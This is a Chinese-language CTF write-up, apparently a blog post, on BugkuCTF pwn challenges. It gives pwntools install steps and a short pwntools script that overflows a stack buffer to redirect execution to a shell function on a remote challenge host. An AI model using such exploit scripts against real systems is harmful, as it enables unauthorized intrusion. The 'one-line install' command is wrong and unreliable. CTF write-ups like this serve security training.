


# BugkuCTF pwn1 pwn2 pwn4 pwn5 pwn3

python 安装piptools

**python3:**


然后实际操作步骤
    ```py
    sudo apt-get update
    sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
    sudo python3 -m pip install --upgrade pip
    ```

**然后去github下把源码下载下来**
    https://github.com/Gallopsled/pwntools/

下载好后进入源码目录

**尝试直接pip install python3-dev会失败，可以执行以下两条命令:**
 ```py
    sudo  apt-get install aptitude
    sudo aptitude install python3-dev

    sudo apt-get install python-setuptools python3-setuptools
    sudo python3 setup.py build
    sudo python3 setup.py install
 ```
**这里不要着急，一步一步来！**

接下来
```py
    sudo python3 -m pip install -r requirements.txt
```
这一步要有点耐心，可以使用豆瓣的源

这一步完成后，记得不要在当前路径下python3进入交互模式import pwn

这样会报错，因为当前目录下又pwn这个文件

切换到上一级目录测试

**一句话安装**
```py
python3 -m install pwn
```


**pwn1**
nc连接后直接就有执行权限
```
ls
cat flag
```

**pwn2**
下载文件放入ida

有一个有shell，我们只需要将程序跳转到这里



选择main F5查看代码



看到这个`s申请了0x30个字节，但是下边read了0x100字节`，就造成了`栈溢出`，我们只要将返回地址溢出为get_shell_的地址就可以得到flag。

```
from pwn import *

sh = remote("114.116.54.89", 10003)

print sh.recv()
payload="A" * 0x38 + p64(0x400751)
sh.sendline(payload)
sh.interactive()
```


## pwn

然后用IDA打开，有个危险函数 `read`,可以用来溢出。


`shift + F12` 查看有没有可疑字符串，然后在字符串上按`x`查看引用他的地方，找到了一个`system` 函数


